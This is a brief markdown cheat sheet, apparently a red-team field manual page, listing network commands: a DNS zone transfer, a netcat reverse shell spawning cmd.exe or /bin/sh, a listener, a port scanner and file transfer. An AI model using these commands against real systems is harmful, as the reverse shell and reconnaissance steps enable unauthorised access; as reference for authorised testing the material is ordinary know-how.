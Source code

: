# rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
	<td>ask the name servers for a domain</td>
  </tr>
</table>
<table>
	<tr>
		<td>host -l <i>domain nameServer</td>
		<td>dns zone transfer</td>
	</tr>
	<tr>
		<td>nc <i>ip port</i> -e <i>shell</td>
		<td>start reverse shell: cmd.exe, /bin/sh</td>
	</tr>
	<tr>
		<td>nc -l -p <i>port</td>
		<td>start listener</td>
	</tr>
	<tr>
		<td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</td>
		<td>tcp port scanner</td> 
	</tr>
	  <tr>
		<td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
		<td>file transfers</td>
	</tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTIxOTgzMjUyNiwtMTk2NjU4ODUxNV19
-->
